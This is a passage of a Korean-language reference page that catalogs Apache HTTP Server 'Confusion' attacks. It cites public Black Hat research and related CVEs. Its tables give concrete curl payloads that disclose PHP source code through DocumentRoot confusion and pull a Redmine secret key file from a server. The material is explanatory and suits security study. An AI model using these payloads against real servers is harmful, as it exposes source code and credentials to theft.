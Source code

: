     </tr>
    <tr>
      <td>Source Code Disclosure</td>
      <td><code>curl http://www.local/html/var/www.local/info.php%3f -H "Host: static.local"</code></td>
      <td>DocumentRoot Confusion을 이용해 웹 애플리케이션의 PHP 파일 절대 경로로 직접 요청한다. 이 경우, 웹 서버는 해당 파일을 PHP 핸들러로 처리하지 않고 일반 텍스트로 간주하여 소스 코드 원문이 그대로 노출된다.</td>
      <td>[1]</td>
    </tr>
  </tbody>
</table>

### Exfiltration

<table>
  <thead>
    <tr>
      <th>공격 이름</th>
      <th>예시 페이로드 / 커맨드</th>
      <th>설명</th>
      <th>출처</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>Sensitive Information Exfiltration</td>
      <td><code>curl http://server/html/usr/share/redmine/instances/default/config/secret_key.txt%3f</code></td>
      <td>공격을 통해 접근 가능해진 민감 파일의 내용을 curl과 같은 도구를 사용하여 요청하고, 그 결과를 공격자의 로컬 환경으로 빼낼 수 있다.</td>
      <td>[1]</td>
    </tr>
  </tbody>
</table>

## 분류에 해당하는 문서

\[1] [Orange Tsai, “Confusion Attacks: Exploiting Hidden Semantic Ambiguity in Apache HTTP Server” (DEVCORE 2024)](https://i.blackhat.com/BH-US-24/Presentations/US24-Orange-Confusion-Attacks-Exploiting-Hidden-Semantic-Thursday.pdf)
\[2] Apache HTTP Server 공식 문서]
* mod\_rewrite: [https://httpd.apache.org/docs/2.4/rewrite/](https://httpd.apache.org/docs/2.4/rewrite/)
* core (DocumentRoot 등): [https://httpd.apache.org/docs/2.4/mod/core.html](https://httpd.apache.org/docs/2.4/mod/core.html)

\[3] [https://curl.se/docs/manpage.html](https://curl.se/docs/manpage.html)

## 기타 참고문헌

\[A] [https://httpd.apache.org/docs/2.4/mod/mod\_rewrite.html](https://httpd.apache.org/docs/2.4/mod/mod_rewrite.html)
\[B] [https://httpd.apache.org/docs/2.4/mod/core.html#documentroot](https://httpd.apache.org/docs/2.4/mod/core.html#documentroot)
\[C] [https://blog.orange.tw](https://blog.orange.tw)
\[D] CVE-2024-38474, CVE-2024-38475, CVE-2024-38476 (Apache Confusion 관련)
